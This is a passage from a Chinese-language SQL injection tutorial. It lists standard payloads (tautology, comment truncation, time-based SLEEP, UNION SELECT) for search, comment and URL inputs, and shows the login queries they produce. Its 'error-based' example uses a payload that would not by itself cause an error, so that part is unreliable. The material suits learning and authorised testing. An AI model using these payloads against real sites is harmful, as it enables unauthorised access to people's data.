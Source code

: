 **3.3.2 搜索功能**

- **示例**：
  - 输入：`' OR '1'='1`
  - 结果：返回所有记录，表明存在 SQL 注入漏洞。

**3.3.3 评论系统**

- **示例**：
  - 输入：`' OR '1'='1`
  - 结果：如果评论内容包含在数据库查询中，则可能返回所有评论。

**3.3.4 URL 参数**

- **示例**：
  - 原始 URL：`http://example.com/product.php?id=1`
  - 修改后 URL：`http://example.com/product.php?id=1' OR '1'='1`
  - 结果：如果返回所有产品信息，则存在 SQL 注入漏洞。

### 4. 编写 SQL 注入攻击代码

**4.1 基本的 SQL 注入语句**

- **示例**：
  - `' OR '1'='1`
  - `admin' --`
  - `' AND 1=1--`
  - `' AND IF(1=1, SLEEP(5), 0)--`
  - `' UNION SELECT 1,2,3--`

**4.2 编写注入代码**

**4.2.1 基于错误的注入**

- **示例**：
  - 输入：`' OR 1=1--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' OR 1=1--' AND password = 'password';`
  - 结果：触发错误信息，观察返回的错误详情。

**4.2.2 基于布尔的盲注**

- **示例**：
  - 输入：`' AND 1=1--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' AND 1=1--' AND password = 'password';`
  - 结果：如果页面响应正常，则注入点有效。

**4.2.3 基于时间的盲注**

- **示例**：
  - 输入：`' AND IF(1=1, SLEEP(5), 0)--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' AND IF(1=1, SLEEP(5), 0)--' AND password = 'password';`
  - 结果：如果页面加载时间延长，则注入点有效。

**4.2.4 UNION 基注**

- **示例**：
  - 输入：`' UNION SELECT 1,2,3--`
  - SQL 语句：`SELECT * FROM users WHERE username = '' UNION SELECT 1,2,3--' AND password = 'password';`
  - 结果：返回额外的数据行。
